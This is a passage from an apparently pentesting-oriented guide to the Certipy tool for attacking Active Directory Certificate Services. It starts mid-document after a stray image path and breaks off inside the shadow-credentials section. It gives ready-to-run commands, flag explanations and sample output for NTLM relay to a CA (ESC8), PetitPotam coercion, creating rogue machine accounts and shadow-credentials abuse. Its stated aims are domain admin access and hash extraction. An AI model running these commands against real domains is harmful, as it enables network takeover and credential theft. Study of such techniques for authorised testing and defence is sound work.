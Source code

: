 **Use Case**: Gains domain admin access or performs DCSync to extract hashes.

### 4. NTLM Relay Attacks (Relay)
**Purpose**: Relay NTLM authentication to a CA’s HTTP endpoint for certificate issuance.

**Command**:
```bash
certipy-ad relay -target 192.168.1.101 -template DomainController -account dc01$
```
**Flag Explanations**:
- `-target 192.168.1.101`: Specifies the CA server’s IP hosting the Web Enrollment endpoint.
- `-template DomainController`: Requests a certificate based on the specified template.
- `-account dc01$`: Specifies the account to impersonate (e.g., a machine account).

**Companion Command (Coercion)**:
```bash
python3 PetitPotam.py -u 'user1' -p 'Password123' 192.168.1.100 192.168.1.101
```
- Coerces NTLM authentication to the relay server.

**Example Output**:
```
[*] Relaying NTLM to http://192.168.1.101/certsrv
[*] Received certificate for dc01$@example.local
```

**Use Case**: Issues a Domain Controller certificate for privilege escalation (ESC8).

### 5. Managing Accounts (Account)
**Purpose**: Create or modify AD accounts for attacks (e.g., ESC9/ESC10).

**Command**:
```bash
certipy-ad account create -u 'user1@example.local' -p 'Password123' -dc-ip 192.168.1.100 -user 'cve' -dns 'dc01.example.local' -spn 'HOST/dc01.example.local'
```
**Flag Explanations**:
- `-u 'user1@example.local'`: Username for authentication.
- `-p 'Password123'`: Password for the user.
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-user 'cve'`: Specifies the name of the new computer account.
- `-dns 'dc01.example.local'`: Sets the DNS hostname for the account.
- `-spn 'HOST/dc01.example.local'`: Assigns a Service Principal Name to the account.

**Example Output**:
```
[*] Created computer account: cve$@example.local
```

**Use Case**: Sets up accounts for certificate-based attacks.

### 6. Shadow Credentials (Shadow)
**Purpose**: Abuse shadow credentials by modifying KeyCredentialLink attributes (ESC9/ESC10).

**Command**:
```bash
certipy-ad shadow auto -u 'user1@example.local' -p 'Password123' -dc-ip 192.168.1.100 -account 'target_user' -output shadow.pfx
```
**Flag Explanations**:
- `-u 'user1@example.local'`: Username for authentication.
- `-p 'Password123'`: Password for the user.
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-account 'target_user'`: Specifies the target account to modify.
- `-output shadow.pfx`: Saves the generated certificate and private key.
- `auto`: Automates the process of generating and assigning a malicious certificate.
